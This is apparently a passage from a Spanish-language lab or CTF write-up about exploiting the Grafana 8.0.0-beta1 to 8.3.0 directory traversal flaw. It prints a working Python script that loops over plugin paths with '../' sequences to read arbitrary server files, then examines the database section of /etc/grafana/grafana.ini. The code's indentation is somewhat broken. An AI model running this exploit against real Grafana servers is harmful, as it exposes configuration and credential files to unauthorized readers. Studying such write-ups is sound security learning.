 ```
    def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return
        def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass
```

mainsimplemente toma un host y luego se lo pasa a exploit exploit cae en un while True, leer un archivo y luego lo busca con una elección aleatoria de una larga lista de complementos: 
no hay nada en /home/developer lo que sugiere que puede ser ejecutado por otro usuario no podemos sacar mucho de hugo en grafana podemos ver /etc/grafana/grafana.ini
dentre de este vemos la seccion DB que era extraña, ya que especifica el tipo de sqlite, pero luego proporciona un puerto y un nombre de usuario: 

```
#################################### Database ####################################
[database]
# You can configure the database connection by specifying type, host, name, user and password
# as separate properties or as on string using the url properties.

# Either "mysql", "postgres" or "sqlite3", it's your choice
;type = sqlite3
;host = 127.0.0.1:3306
;name = grafana
;user = root
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password = 
```

